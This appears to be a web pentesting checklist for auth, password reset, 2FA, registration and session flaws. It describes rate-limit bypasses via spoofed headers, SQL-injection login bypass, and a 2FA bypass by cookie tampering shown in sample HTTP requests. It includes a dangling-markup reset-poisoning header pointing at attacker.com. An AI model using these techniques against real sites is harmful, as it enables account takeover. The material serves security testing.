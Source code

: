 ***

**Forgot password testing**
- Failure to validate session on Logout and Password reset
- Check if forget password reset link/code uniqueness
- Check if reset link does get expire or not if its not used by the user for certain amount of time
- Find user account identification parameter and tamper `ID` or `Parameter` value to change other user's password
- Check for weak password policy
- Weak password reset implementation Token is not validated after use
- If reset link has another param such as date and time, then. Change date and time value in order to make active & valid reset link.
- Check if security questions are asked?
	- How many guesses allowed?
	- Lookout policy maintained or not?
- Add only spaces in new password and confirmed password. Then hit enter and see the result
- Does it display old password on the same page after completion of forget password formality?
- Ask for two password reset link and use the older on from user's email

---

**Authentication**
- Username enumeration
- Bypass authentication using various SQL injection on username and password field
- Lack of password confirmation on
	- Change email address
	- Change password
	- Manage 2FA
- Is it possible to use resources with authentication? Access violation
- Check if user credential are transmitted over SSL or not
- Weak login function HTTP and HTTPS both are available
	- Test user account lockout mechanism on brute force attack
	- Variation: If server blocks instant user requests, then try with time throttle option from intruder and repeat process again.
	- Bypass rate limiting by tampering user agent to `Mobile User Agent`
	- Bypass rate limiting by tampering user agent to `Anonymous user agent`
	- Bypass rate limiting by using null byte
- Create a password using `cewl` command
- Test Oauth login functionality
	- Oauth Roles
		- Resource owner -> user
		- Resource server -> twitter
		- Client application -> `twitterdeck.com`
		- Authorization server -> twitter
- Bypass rate limit with `X-Forwarded-For:` to pwn authentication
- Host header injection in forget password page
- Test remember me functionality
- Test password reset and/or recovery
	**2FA Bypass**
	- Access the content directly (`site.com/prifle`)
	- Login using Oauth gmail or Facebook to bypass 2FA
	- Reset password and login into the account to bypass 2FA
	- Use old token or change the response
- Go to the rest password page and add two emails while sending the reset password link (You could receive two password reset links)
- Web cache deception (`site.com/file/ok.css`)
- Php protection can be bypassed using `[]` such as `password=123` -> `password[]=` (CSRF tokens too)
- While resetting password change the host header to your server (VPS) = secret link to your VPS
- Bypass rate limit protection: Change system IP per request
- `#Password` reset poisoning via **dangling markup**
	- `Host: victim.com'<a href="//attacker.com/?`
- Add `X-Forwarded-For: 127.0.0.1` or `1-1000` to bypass the rate limit protection
- Login into the valid account and then into then invalid one, repeat this process to fool the server to bypass the rate limit protection (Observe that your IP blocked if you submit 3 incorrect logins in a row However, you can reset the counter by logging in yo your own account before the limit is reached)
- Replace the single string value of the password with an array of strings containing all of the candidate passwords. For example:
```json
"usernae":"test_account",
"password":[
	"123456",
	"password",
	"qwerty",
	...
]
```
- if you enter the wrong code twice, you'll be logged you again bypass it using macros (You need to use Burp's session handling features to log back in automatically before sending each request)

---

1. After signup, I could only access the organization as a `VIEWER`
2. FOUND and endpoint where API KEYS for the organisation were created
3. Google'd the required parameters and it required the following parameters:
```json
{"name":"test", "scope":["viewer"]}
```
4. `scope` could be either `viewer` or `admin` but both gave me 403 forbidden
5. Sent an empty array such as `"scope":[]`
6. API key was generated having full access to the organization
7. Using the key, I changed my role from `VIEWER` to `ADMIN` and had full control over the organization

---

**Bypassing two-factor authentication**

Flawed two-factor verification logic sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website does't adequately verify that same user is completing the second step for example, the user logs with their normal credentials in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request users this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456'
```
In this case, an attacker could log in using their own credentials but then change the value of the account cookie to any arbitrary username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.come
Cookie: account=victim-user
...
verification-code=123456
```

---

**Common password reset vulnerabilities**
1. Password reset poisoning
2. Predictable reset Tokens
3. Expired token reuse
4. Missing or weak email verification
5. Token Leakage in referer header
6. Unprotected password reset forms

---
**Password reset functionality bugs:**
- No rate limiting on password reset
- Password reset link not expiring
- Password reset with manipulating email parameter
- Password reset token leak via refer
- Password reset poisoning
- Response manipulation
- Password reset token leaked in response
- Brute force password reset token/OPT
- Use attacker account password reset token to reset victim account
- Self-XSS in password reset functionality
- Change in referer lead to malicious hyperlink in email
---
**Registration feature testing**
- Check for duplicate registration/overwrite existing user
- Check for weak password policy
- Check for reuse existing usernames
- Check for insufficient email verification process
- Weak registration implementation-Allow disposable email address
- Weak registration implementation-over HTTP
- Overwrite default web application pages by specially crafted username registrations - after registration does your profile link appear something as `www.example.com/user`
	- If so, enumerate default folders of web application such as `/images`, `/contact`, `portfolio`
	- Do a registration using the username such as images, contact, portfolio
	- Check if those default folders have been overwritten by your profile link or not
---
**Session Management Testing**
- Identify actual session cookie out of bulk cookies in the application
- Decode cookies using some standard decoding algorithms such as Base64, hex, URL, etc
- Modify **cookie.session** token value, by 1 bit/byte. Then resubmit and do the same for all tokens. Reduce the amount of work you need to perform in order to identify which part of the token is actually being used and which is not
- If self-registration is available and you can choose your username, log in with a series of similar username containing small variations between them, such as A, AA, AAA, AAAB, AAAC, AABA, and so on. If another user-specific data is submitted at login or stored in user profile (such as an email address)
- Check for session cookies and cookie expiration date/time
- Identify cookie domain scope
- Check for HttpOnly flag in cookie
- Check for secure flag in cookie if the application over SSL
- Check for session fixation i.e. value of session cookie before and after authentication
- Replay the session cookie from a different effective IP address or system to check whether the server maintains the state of the machine or not
- Check for concurrent login through different machine/IP
- Check if any user pertaining information is stored in cookie value or not if yes, tamper it with other user's data
- Failure to invalidate session on (Email Change, 2FA Activation)
---

